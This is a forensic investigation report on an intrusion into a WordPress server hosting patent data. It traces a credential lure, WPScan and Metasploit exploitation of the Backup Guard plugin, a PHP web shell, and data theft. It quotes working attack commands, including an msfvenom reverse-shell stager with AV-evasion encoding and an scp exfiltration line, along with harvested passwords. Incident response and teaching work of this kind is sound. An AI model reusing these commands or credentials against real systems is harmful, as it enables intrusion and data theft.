Case Overview
This report documents a completed digital forensic investigation into a suspected hack-and-leak incident
at CompTech. An internal Windows Server 2019 host serving
projects.company.org and patents.company.org was accessed without
authorization. Both sites shared a MySQL-backed WordPress environment — unauthorized access therefore
exposed restricted patent data alongside routine project content.
Suspect Host
- Hostname: DESKTOP-QPQJ3DK
- User: coelho (Coelho Harnagan)
- IP: 10.103.8.81 (DHCP)
- OS: Windows 10 Education 22H2
- Timezone: EST (UTC−4 DST)
Victim Server
- Hostname: WIN-MU4SRPAR33J
- IP: 192.168.1.100
- OS: Windows Server 2019
- Services: Apache · WordPress · MySQL
- Sites: projects.company.org · patents.company.org
Evidence Sources
- Suspect disk image (E01) + memory dump
- Victim disk image (E01) + memory dump
- Network capture 1 (March 17–18, cleartext)
- Network capture 2 (March 23, encrypted)
- Suspect & victim pagefile.sys
Key Actors
- coelho — basic Projects CMS privileges
- hierro (10.103.8.72) — privileged WP admin targeted via credential lure
- Attack window: March 14–23, 2024
- Objective: MySQL database dump containing patent data
192.168.1.100 to 10.103.8.81? Answer:
Yes.
Summary of Findings
The evidence supports a coherent intrusion sequence rather than isolated suspicious artifacts. Six core findings are established across all three evidence sources:
- The suspect workstation prepared and ran the full attack workflow — staged credential-lure
infrastructure, WPScan reconnaissance, Metasploit exploitation, msfvenom payload generation, SSH
receive preparation, and possession of
dump.sql. - The victim server was compromised through the WordPress Backup Guard plugin path. Network capture 1
and victim artifacts show privileged login as
hierro, upload of attacker-controlled PHP files, and repeated shell use from10.103.8.81. - The shell was used for interactive command execution — filesystem orientation, host and network
checks,
wp-config.phpaccess — with command bodies visible in cleartext packet traffic. - Sensitive configuration was exposed and transfer was attempted.
wp-config.phpcontents were visible through shell responses. Victim pagefile, PowerShell EVTX, and Volatilitycmdlinepreservedscp/sshactivity towardcoelho@10.103.8.81. - On March 23, the attacker staged
stg.exefrom the suspect host, executed it via the web shell, and established encrypted TCP/443 stream 139 from victim to suspect. - The
dump.sqltransfer is strongly corroborated by cross-source timing and hash evidence — victim USN/MFT write completion → encrypted burst → suspect MFT receipt → identical SHA-256 hash on both hosts.
Tools & Equipment
| Category | Tool | Purpose |
|---|---|---|
| Evidence mounting | Arsenal Image Mounter | Mount suspect and victim E01 images as logical volumes for artifact review |
| Forensic case platform | Autopsy 4.21 / 4.22 | Case ingestion, data-source verification, web artifacts, registry artifacts, logical file ingest of pagefile and memdump |
| Integrity validation | Autopsy Integrity · Get-FileHash |
Confirm image integrity and validate cross-host SHA-256 match for dump.sql
|
| Host artifact parsing | Eric Zimmerman Tools (EZTools) | MFT, USN Journal, Prefetch, EVTX, Registry, Amcache, ShellBags, SRUM — parsed to CSV/JSON |
| File-system timeline | MFTECmd · USN Journal | Reconstruct file creation, modification, write-completion timing for attacker tools and
dump.sql
|
| Program execution | PECmd · Amcache · Autopsy Recent Activity | Corroborate execution of Python, WPScan/Ruby, Metasploit, Nmap, PowerShell,
stg.exe
|
| Event log review | EvtxECmd · Event Viewer | PowerShell, Defender, and System event logs for command execution and detection events |
| Registry review | Registry Explorer · RECmd | Hostname, timezone, network interface, DHCP configuration, user context |
| User activity | RecentLNK · JumpLists · ShellBags · SRUM | File access, folder navigation, program activity — corroborative, not primary |
| Browser artifacts | Autopsy Web History / Downloads / Cookies / Cache | Exploit-script downloads, WordPress activity, target access timeline |
| Memory forensics | Volatility | Process ancestry (pstree), command lines (cmdline), network
sockets (netscan) |
| Pagefile / raw content | bulk_extractor · strings | Residual URLs, credentials, shell paths, command fragments from pagefile and memory |
| Network packet analysis | Wireshark | WordPress login, Backup Guard uploads, shell traffic, stg.exe staging, Stream 139 analysis |
| Packet CLI | tshark | Reproducible packet queries, byte-direction calculation for Stream 139 |
Suspect Workstation Analysis
All suspect-side findings were validated across disk artifacts first, then corroborated with memory,
pagefile, and browser evidence. The workstation was attributed to Coelho Harnagan at
DESKTOP-QPQJ3DK / 10.103.8.81.
Credential Harvesting Infrastructure
Before exploitation, the suspect built a local credential-capture system targeting the privileged
WordPress user hierro:
srv.py— Python HTTP handler that printed POSTed credential data, confirmed by PYTHON.EXE Prefetch loadingsrv.pyand repeatedpython .\srv.pyentries inConsoleHost_history.txtlogin\index.html— clone ofprojects.company.org/wp-login.phpwith form action altered to submit tohttp://project.company.org/index.html- LAN Messenger delivery —
messenger.dbandlmc_1710537907019.logshow coelho messaginghierro@10.103.8.72, sending the lure URL, and discussing projects blog vs. patents access restrictions Desktop\hierro.txt— plaintext note:hierro - ktbFZ%25PoRZA5KQb ---projects blog pass, created 2024-03-17 20:11:12 UTC- Notepad++ backup of
hierro.txtat2024-03-17 21:07:32 UTC— confirms later reopening

Exploit Research & Tool Acquisition
Browser artifacts and Autopsy Web Downloads establish a deliberate exploit-research sequence on March 17, 2024:
- Google search:
exploit for wordpress-popular-postsat 20:24:56 UTC 50129.pydownloaded from Exploit-DB at 20:25:20 UTC- Rapid7 Backup Guard module browsed at 21:09:27 UTC
50093.pydownloaded from Exploit-DB at 21:09:50 UTC- Earlier tool installs:
metasploitframework-latest.msi(March 14),rubyinstaller-devkit-3.2.3-1-x64.exe(March 14),nmap-7.94-setup.exe(March 17)

WordPress Reconnaissance (WPScan)
The suspect ran authenticated WPScan enumeration against projects.company.org using the
harvested credential:
wpscan --url http://projects.company.org --enumerate vp --enumerate vtwpscan -U hierro -P ktbFZ%25PoRZA5KQb— authenticated scan with hierro's credential- WPScan burst at 21:01:12 UTC requested
readme.txtacross plugin and theme directories in under one second — confirmed in Network Capture 1 - RUBY.EXE Prefetch: RunCount 14, LastRun 20:46:40, loading WPSCAN-3.8.25 gem paths
- Metasploit history shows:
search scanners→use auxiliary/scanner/http/wordpress_scanner→set RHOSTS projects.company.org→search backup

Exploitation — Backup Guard RCE
The confirmed exploitation path was through the WordPress Backup Guard plugin using
50093.py:
.msf4\historyshows:exploit/multi/http/wp_plugin_backup_guard_rceconfigured withset USERNAME hierro,set PASSWORD ktbFZ%PoRZA5KQb, Meterpreter handler setup, andsession 1- PCAP-1 frame 7630 matched the 50093.py Firefox/Linux user-agent, multipart boundary, Backup Guard
import endpoint, and
shell.phpupload body — HTTP 200 response confirmed - PYTHON.EXE Prefetch loaded both
50093.pyand50129.py(RunCount 13, executions March 17 and March 23) 50129.pyexplicitly referenceshttp://project.company.org/shll.gif.php— confirms separate shell payload for the Popular Posts exploit path
Payload Generation — stg.exe
The Meterpreter stager was deliberately generated to evade detection:

msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.103.8.81 LPORT=443 -f exe -o stg.exe -e x64/xor_dynamic
- MFT record:
stg.exein\Users\coelho\Downloads\login, size 251,904 bytes - Created:
2024-03-23T04:06:27 UTC, LastAccess:2024-03-23T04:08:50 UTC x64/xor_dynamicencoder selected — deliberate AV evasion
SSH Receive Preparation
authorized_keyswritten at2024-03-21 05:16:18 UTC— singlessh-ed25519entry forcoelho@DESKTOP-QPQJ3DK- Volatility
netscan:sshd.exelistening on0.0.0.0:22at2024-03-21 05:17:22 UTC— 64 seconds later - Prepared exactly two days before victim-side
scp coelho@10.103.8.81activity on March 23
Memory & Pagefile Corroboration
Volatility analysis of the suspect memory dump corroborated all disk-based findings with live-state evidence:
cmdline Plugin
- Active:
lmc.exe(LAN Messenger) - Active:
sshd.exe - Active:
python.exe .\srv.py
pstree Plugin
explorer.exe → powershell.exe → python.execonhost.exebeneath powershell- Confirms interactive console launch
netscan Plugin
lmc.exe→0.0.0.0:50000at 2024-03-15 21:25 UTCpython.exe→0.0.0.0:80at 2024-03-23 04:06 UTCsshd.exe→0.0.0.0:22at 2024-03-21 05:17 UTC



Pagefile bulk_extractor review returned: Host: projects.company.org,
Host: project.company.org, Referer: http://projects.company.org, partial
log=hierro&pwd= form residue,
http://projects.company.org/wp-content/uploads/backup-guard/shell.php, and
wp_plugin_backup_guard_rce — all corroborating the established disk, memory, and network
picture without introducing new theories.
dump.sql on Suspect Host
An Autopsy keyword-search pivot on http://patents.company.org surfaced a SQL dump under
C:\Windows\System32\dump.sql:



Content review confirmed: http://patents.company.org/wp-admin/, published Secret
Patents post, attachment patent-front-page.png, and wp_users table
data tied to patents.company.org. The MySQL dump header read:
-- MySQL dump 10.13 Distrib 8.0.36, for Win64 (x86_64).

Victim Server Analysis
The victim server WIN-MU4SRPAR33J at 192.168.1.100 ran Apache, WordPress, and
MySQL serving both projects.company.org and patents.company.org from a shared
database backend.
Shell Placement via Backup Guard
Victim Apache logs, MFT records, and Defender EVTX confirm PHP shell artifacts were placed in the Backup Guard upload path:
xegsd.phpandshell.phpuploaded via Backup Guard administrative workflow- Apache access log shows repeated POST requests to
shell.phpfrom10.103.8.81 shell.phpimplementedsystem($_GET['cmd'])— direct OS command execution


system($_GET['cmd']) implementing direct OS command
executionwp-config.php Exposure & SCP Attempt
Shell commands visible in cleartext Network Capture 1 returned wp-config.php contents over
HTTP:
DB_NAME = blogDB_USER = rootDB_PASSWORD = CSCI3338.DB_HOST = localhost
Victim PowerShell EVTX Event ID 600 at 2024-03-18 07:14:10 UTC logged:
sshpass scp wp-config.php coelho@10.103.8.81. Victim pagefile and Volatility
cmdline preserved the same command. No received wp-config.php was recovered on
the suspect host — reported as attempted transfer.

stg.exe Staging & Defender Detection
On March 23, the attacker used the existing shell to download and execute the staged Meterpreter payload:


dump.sql on Victim Host
- Root-level
C:\dump.sql— created and written immediately before the March 23 network burst - USN Journal:
FileCreate 2024-03-23 04:17:44 UTC→ write completion04:18:26 UTC - Size: 5,083,961 bytes — identical to suspect-side copy
- Content confirmed: patents-site WordPress database material

Victim Memory Forensics

Network Capture Analysis
Capture 1 — March 17–18: Cleartext Web Compromise Phase
This capture preserved the complete web-compromise sequence in cleartext HTTP:
| Timestamp (UTC) | Event | Evidence |
|---|---|---|
| 2024-03-17 21:01:12 | WPScan burst — readme.txt requests across all plugin/theme dirs in <1
second |
tshark http.request.uri contains "readme.txt" + suspect WPScan cache |
| 2024-03-17 21:08:27 | Cleartext POST to wp-login.php — server returned HTTP 302 with WordPress
auth cookies for hierro |
PCAP-1 login POST + Set-Cookie response |
| 2024-03-17 | Backup Guard import workflow abused — xegsd.php and shell.php
uploaded; frame 7630 matched 50093.py fingerprint (user-agent, multipart boundary,
endpoint, body) |
PCAP-1 + suspect 50093.py + victim MFT + Defender EVTX |
| 2024-03-17–18 | Shell POST commands: filesystem orientation, wp-config.php read, host/network checks | PCAP-1 shell POST bodies + victim Apache logs |
| 2024-03-18 06:38+ | Shell responses returned wp-config.php contents: DB_PASSWORD = CSCI3338. | PCAP-1 HTTP response stream + victim disk |
| 2024-03-18 07:14:10 | Victim PowerShell logged: sshpass scp wp-config.php coelho@10.103.8.81 |
Victim PowerShell EVTX Event ID 600 + pagefile + Volatility cmdline |
Capture 2 — March 23: Staging, Payload Execution & Transfer
